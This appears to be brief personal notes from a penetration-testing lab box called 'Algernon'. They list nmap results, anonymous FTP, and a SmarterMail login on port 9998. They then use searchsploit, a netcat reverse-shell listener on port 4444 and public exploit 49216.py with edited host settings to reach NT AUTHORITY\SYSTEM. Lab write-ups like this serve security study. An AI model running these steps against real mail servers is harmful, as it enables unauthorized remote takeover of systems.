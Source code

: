 # Algernon
# date 2-8-2023
# 192.168.191.65

# nmap
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
9998/tcp open  distinct32


# enum
└─$ ftp 192.168.191.65        
login anonymous
Port 80 redirects to the default IIS page.
Port 9998 directs us to the following login page for SmarterMail.
http://192.168.191.65:9998/interface/root
└─$ searchsploit SmarterMail               

# exploit
└─$ nc -lvnp 4444          

windows/remote/49216.py
modify exploit lhost host lport
└─$ python3 49216.py          
we got nt authority\system
 GG
